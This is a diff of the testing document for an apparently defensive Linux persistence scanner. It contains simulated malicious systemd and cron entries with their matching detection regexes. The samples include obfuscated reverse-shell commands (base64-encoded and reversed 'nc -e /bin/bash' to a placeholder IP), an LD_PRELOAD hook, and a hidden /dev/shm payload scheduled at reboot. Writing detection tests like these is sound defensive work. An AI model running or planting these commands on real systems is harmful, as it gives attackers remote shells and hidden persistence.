

Before and after one commit to JakubMalisz/PersistenceScanner, a Markdown page: TESTING.md, the part around one of its changes. Shown at 88% size. GitHub-like rendering; pictures changed too: assets/test-systemd.png.

````diff
--- a/TESTING.md
+++ b/TESTING.md
@@ -36,7 +36,7 @@ Description=System Security Monitor
 
 [Service]
 Type=simple
-Environment="LD_PRELOAD=/tmp/libhook.so"
+Environment="LD_PRELOAD=/tmp/.libhook.so"
 ExecStart=/bin/bash -c 'echo "bmMgLWUgL2Jpbi9iYXNoIDEwLjAuMC4xIDQ0NDQ=" | base64 -d | bash'
 Restart=always
 
@@ -46,9 +46,9 @@ WantedBy=multi-user.target
 
 **Matched Indicators (`rules.json`):**
 * `LD_PRELOAD` — **CRITICAL** (*Shared library preloading injection*) - *Triggered via Environment field*
-* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*) - *Triggered via Environment field*
-* `\|\s*bash` — **HIGH** (*Piping raw remote stream directly into Bash shell execution*) - *Triggered via ExecStart field*
-* `base64\s+(-d|--decode)` — **HIGH** (*Base64 decoding invocation, often used to conceal malicious commands.*) - *Triggered via ExecStart field*
+* `(/tmp|/dev/shm|/var/tmp|/run/user)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*) - *Triggered via Environment field*
+* `base(64|32)\s+(-d|--decode)\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Base64/32 decoding invocation piped directly into a shell interpreter.*) - *Triggered via ExecStart field*
+* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*) - *Triggered via ExecStart field*
 
 **PoC Evidence:**
 
@@ -63,16 +63,16 @@ WantedBy=multi-user.target
 **Simulated File:** `root_cron`
 
 ```cron
-* * * * * root echo "4444 1.0.0.01 hsab/nib/ cn" | rev | bash
-@reboot root echo "/dev/shm/payload.sh" | at now + 1 minute
+* * * * * root echo "4444 1.0.0.01 hsab/nib/ e- cn" | rev | bash
+@reboot root echo "/dev/shm/.payload.sh" | at now + 1 minute
 ```
 
 **Matched Indicators (`rules.json`):**
-* `rev\s*\|\s*(ba)?sh` — **CRITICAL** (*Reversed command string piped directly into shell*)
-* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon*)
-* `@reboot` — **HIGH** (*Startup schedule directive*)
-* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*)
-* `\|\s*bash` — **HIGH** (*Piping raw remote stream directly into Bash shell execution*) - *Triggered via ExecStart field*
+* `rev\s*\|\s*(ba|z|k|da)?sh` — **CRITICAL** (*Reversed command string piped directly into a shell interpreter.*)
+* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon to break process tree visibility*)
+* `@reboot` — **HIGH** (*Non-standard schedule directive: Executes payload automatically on system startup*)
+* `(/tmp|/dev/shm|/var/tmp|/run/user)/\.[a-zA-Z0-9_-]+` — **HIGH** (*Direct execution of hidden script or binary from non-standard temporary directories.*)
+* `\|\s*(ba|z|k|da)?sh` — **LOW** (*Piping raw remote stream directly into shell execution*)
 
 **PoC Evidence:**
 
````
Also changed, not shown: other parts of TESTING.md (+9 -7 lines), assets/test-cron.png, 1 other file.
